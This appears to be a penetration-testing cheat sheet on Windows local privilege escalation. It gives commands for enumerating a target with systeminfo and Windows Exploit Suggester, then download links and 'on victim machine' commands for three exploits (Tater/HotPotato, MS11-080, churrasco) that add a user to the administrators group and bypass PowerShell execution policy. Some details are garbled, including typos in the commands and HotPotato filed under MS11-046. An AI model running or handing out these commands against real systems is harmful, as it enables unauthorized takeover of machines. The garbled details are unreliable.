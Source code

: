 # Kernel Exploits

In order to find relevant MS-* exploits for target, first dump its general information using the command:

```
systeminfo > systeminfo.txt
```

Then, use Windows Exploit Suggester as following locally / remote:

```
python3 wes.py systeminfo.txt
```

*NOTE:* Download Windows Exploit Suggester from here: https://github.com/bitsadmin/wesng

## Useful Exploits

### MS11-046: HotPotato 

For Windows 7,8,10, Server 2008, Server 2012.

Download from the Github project: https://github.com/Kevin-Robertson/Tater

Example of execute on victim machine using powershell:

```
C:\> powershell.exe -nop -ep bypass
PS:\> Import-Module C:\Users\User\Desktop\Tater.ps1
PS:\> Invoke-Tater -Trigger 1 -Command "net localgroup
administrators user /add
```

### MS11-080: 'afd.sys' Local Privilege Escalation

For Microsoft Windows XP/2003.

Downloaf from here: https://www.exploit-db.com/exploits/18176

Compile using pyinstaller:

```
root@kali:~/#: python pyinstaller.py --onefile ms11-080.py
```

Execute on victim machine:

```
C:\> mx11-080.exe -O XP
```

### MS09-012: Token Kidnapping Local Privilege Escalation ("churrasco")

For Windows Server 2003 and IIS 6.0.

Download from here: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012

Execute on the victim machine:

```
C:\Inetpub>churrasco.exe -d "net user /add <username> <password>"
C:\Inetpub>churrasco.exe -d "net localgroup administrators <username> /add"
```
